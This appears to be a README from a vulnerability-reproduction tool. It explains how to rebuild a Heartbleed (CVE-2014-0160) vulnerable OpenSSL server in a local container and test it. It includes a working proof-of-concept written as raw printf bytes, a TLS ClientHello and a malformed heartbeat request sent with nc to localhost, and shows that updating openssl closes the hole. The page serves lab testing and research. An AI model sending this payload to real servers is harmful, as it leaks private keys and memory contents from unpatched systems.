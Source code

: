 # CVE-2014-0160 (Heartbleed)

### Description
The (1) TLS and (2) DTLS implementations in OpenSSL 1.0.1 before 1.0.1g do not properly handle Heartbeat Extension packets, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the Heartbleed bug.


### Command to run
```shell
python decret.py --port 4433 --number 2014-0160 --release bullseye --directory heartbleed --selenium
```

### Simple testing method
In the container :
```shell
openssl req -x509 -newkey rsa:2048 -out cert.pem -keyout key.pem -keyform PEM -outform PEM -nodes
openssl s_server -tls1 -cert cert.pem -key key.pem
```
Then, on the host : 
```shell
( printf "\x16\x03\x01\x00\x38\x01\x00\x00\x34\x03\x01"
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x06\x00\x05\x00\x35\x00\x39\x01\x00"
printf "\x00\x05\x00\x0f\x00\x01\x01" ) > chello.bin

printf "\x18\x03\x01\x00\x03\x01\xff\xff" > hb.bin

(cat chello.bin; sleep 3; cat hb.bin) | nc 127.0.0.1 4433 | hexdump -C
```

Since we redirected the 4433 port, we can easily connect to the
vulnerable server.  It is also possible to enter the network namespace
from the host if you do not want to redirect a port.  From the host,
you can do this as `root` and have access to the network stack from
the container while using the filesystem from the host:
```
# ps auxw | grep openssl
root     123456  [...] openssl s_server -tls1 -cert cert.pem -key key.pem
# nsenter -n /proc/123456/ns/net # OR nsenter --net -t 123456
```

We observe that a lot of data thus it is vulnerable.

If `openssl` is then updated in the container :
```shell
apt-get install openssl
```
And the exploit is tested again, only a few bytes are sent back. The vulnerability is fixed.
